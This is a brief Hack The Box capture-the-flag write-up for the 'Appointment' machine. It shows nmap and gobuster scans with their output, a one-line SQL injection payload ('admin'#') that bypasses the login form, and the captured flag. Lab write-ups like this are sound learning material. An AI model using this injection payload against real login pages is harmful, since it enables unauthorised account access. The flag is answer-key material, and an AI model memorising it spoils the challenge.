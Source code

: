 ```yaml
---
title: "HTB: appointment"
date: 2022-04-29T21:54:03-07:00
draft: false
tags: ["web"]
categories: ["htb"]
# description: "This is a description"
---
```


### nmap
Strating with an nmap.

```
# Nmap 7.92 scan initiated Fri Apr 29 16:22:44 2022 as: nmap -sV -sC -oA nmap/appointment 10.129.22.167
Nmap scan report for 10.129.22.167
Host is up (0.12s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Login
|_http-server-header: Apache/2.4.38 (Debian)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Apr 29 16:22:56 2022 -- 1 IP address (1 host up) scanned in 12.20 seconds
```

Nothing too interesting here.

### gobuster
Pivoted to gobuster to see subdirectories:\
`gobuster dir -u http://10.129.22.167 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt`

```
/images               (Status: 301) [Size: 315] [--> http://10.129.22.167/images/]
/css                  (Status: 301) [Size: 312] [--> http://10.129.22.167/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.129.22.167/js/]
/vendor               (Status: 301) [Size: 315] [--> http://10.129.22.167/vendor/]
```

### sqlinjection

After looking at the webage, the input forms seemed potentially vulnerable to sqlinjection.

`uname=admin'#` payload granted the flag.

---
**flag:**
`e3d0796d002a446c0e622226f42e9672`